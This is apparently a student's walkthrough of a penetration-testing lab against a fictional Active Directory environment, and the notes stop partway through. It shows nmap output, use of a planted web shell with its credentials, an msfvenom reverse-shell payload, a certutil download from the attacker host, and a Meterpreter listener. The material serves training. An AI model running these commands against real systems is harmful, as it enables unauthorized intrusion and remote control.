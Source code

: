 The complete course is [[Index |here]]
# Background
A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: ***admin:My_W3bsH3ll_P@ssw0rd!*** in place for us to start from in the /uploads directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

# Question 1: Submit the contents of the flag.txt file on the administrator Desktop of the web server

## Nmap Scan
```
┌──(root㉿kali)-[/home/z3tssu/Downloads]
└─# nmap -p80,445,135,139 -v -Pn 10.129.202.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 21:19 +04
Initiating Parallel DNS resolution of 1 host. at 21:19
Completed Parallel DNS resolution of 1 host. at 21:19, 0.00s elapsed
Initiating SYN Stealth Scan at 21:19
Scanning 10.129.202.242 [4 ports]
Discovered open port 135/tcp on 10.129.202.242
Discovered open port 80/tcp on 10.129.202.242
Discovered open port 139/tcp on 10.129.202.242
Discovered open port 445/tcp on 10.129.202.242
Completed SYN Stealth Scan at 21:19, 0.28s elapsed (4 total ports)
Nmap scan report for 10.129.202.242
Host is up (0.25s latency).

PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

```

## Navigating the Webserver /uploads
The instructions basically gives us a credential and a URL path to go to
http://10.129.202.242/uploads/

```
admin:My_W3bsH3ll_P@ssw0rd!
```

this seems like a directory of some sort, lets enumerate further
1. Only the antak.aspx works

![[Pasted image 20251014213138.png]]

Once we browse to the antak.aspx, we are greeted with a login page

![[Pasted image 20251014213148.png]]

lets try and use the credentials here
![[Pasted image 20251014213315.png]]

We have access using the given credentials

## Reading the Flag.txt contents
```
cat c:\users\administrator\desktop\flag.txt
```

![[Pasted image 20251014213814.png]]

# Question 2: Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

We will have to elevate our privileges and get a proper shell on the target, lets do so using Meterpreter 

## 1. Create a PAYLOAD using MSFVenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.117 LPORT=7777 -f exe -o reverse.exe
```
## 2. Transfer the Payload to the target (certutil)

```bash
certutil.exe -urlcache -f http://10.10.14.117:8080/SHELL_ATTACK.exe SHELL_ATTACK.exe
```
## 3. Setup Listener 

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.117
LHOST => 10.10.14.117
msf6 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf6 exploit(multi/handler) > run

```
## 4. Execute the Payload on the Target



For this we will have to Kerberoast the accounts, lets try and use either PowerView or Rubeus 

## Download PowerView or Host
I already have it on my machine, but it can be downloaded here; [PowerTools/PowerView/powerview.ps1 at master · PowerShellEmpire/PowerTools · GitHub](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
## Host PowerView using a Python Server (attacker Machine)
```
python -m http.server 9090 
```

## Download PowerView from the Target Machine
```

```

